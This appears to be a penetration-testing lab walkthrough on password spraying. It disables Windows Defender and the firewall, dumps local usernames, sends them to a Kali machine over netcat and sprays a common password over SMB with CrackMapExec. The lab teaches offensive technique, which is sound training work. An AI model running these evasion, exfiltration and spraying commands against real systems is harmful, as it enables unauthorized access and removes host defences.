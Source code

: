 
# Password Spray

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

Now, let's open a command Prompt:

![](../AppLocker/attachments/cmd-command-prompt.png)

C:\Windows\system32> `cd \tools`

C:\Tools> `200-user-gen.bat`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-26-22.png)

Now, we will need to start PowerShell to run DumpUsers.ps1. For simplicity, we will use the script that gets a list of usernames from the windows host and saves it to the C:\temp\UserList.txt file.


C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `.\DumpUsers.ps1`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-37-09.png)

Next we are going to password spray against SMB (port 445) which we know is open by the results of previous NMAP scan.
For now lets transfer a list of usernames to our kali machine by netcat. To do it we need the ip of our machine and the following command.

`nc -lv -p 2222 > users`

![](attachments/kali-netcat.png)

Now switch to command prompt on windows machine. 

![](../AppLocker/attachments/cmd-command-prompt.png)

Disable firewall.
C:\Tools> `netsh advfirewall set allprofiles state off`

![](attachments/disable-firewall.png)

And transfer the file to kali by running the next command 

C:\Tools> `nc <IP> 2222 < ..\temp\UserList.txt` (Cancel out netcat (Ctrl-C) after 3 seconds.).

![](attachments/win-netcat.png)

We will use the tool CrackMapExec for password spray attack over smb. The tool supports other protocols like ssh, winrm, ldap etc. 

The command looks like this - `cme smb <IP> -u users -p Winter2020 --shares`.

![](attachments/cme-result.png)

We can see that the user Cristopher was succesfully authenticated to our target machine.

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

![](attachments/Clipboard_2020-06-16-10-39-16.png)




